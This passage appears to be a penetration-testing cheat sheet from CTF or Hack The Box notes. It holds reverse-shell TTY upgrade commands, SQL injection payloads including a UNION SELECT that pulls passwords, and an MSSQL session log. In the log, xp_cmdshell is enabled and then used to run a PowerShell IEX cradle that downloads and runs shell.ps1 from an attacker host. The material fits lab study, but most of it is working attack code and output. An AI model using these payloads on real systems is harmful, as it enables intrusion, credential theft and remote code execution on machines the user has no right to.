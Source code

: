 ```bash
$ echo $TERM
$ stty size                                       # Run this to get the <num> and <cols>
$ stty raw -echo

$ reset                                           # In reverse shell
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```


## Web Exploitation

---

### SQL Injection

```
 ' OR 1=1 --
  1 UNION SELECT first_name, password FROM users #

```

```bash 
$ python3 mssql.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth                                                           
Password:  
[*] Encryption required, switching to TLS  
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master  
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english  
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192  
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.  
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.  
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)  
[!] Press help for extra shell commands  
SQL> EXEC sp_configure 'Show Advanced Options', 1;  
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.  
SQL> reconfigure;  
SQL> sp_configure;  
  
SQL> EXEC sp_configure 'xp_cmdshell', 1  
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.  
SQL> reconfigure;  
SQL> xp_cmdshell "whoami"  
output  
archetype\sql_svc  
NULL  
  
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.6:8000/shell.ps1\");"  
output

```
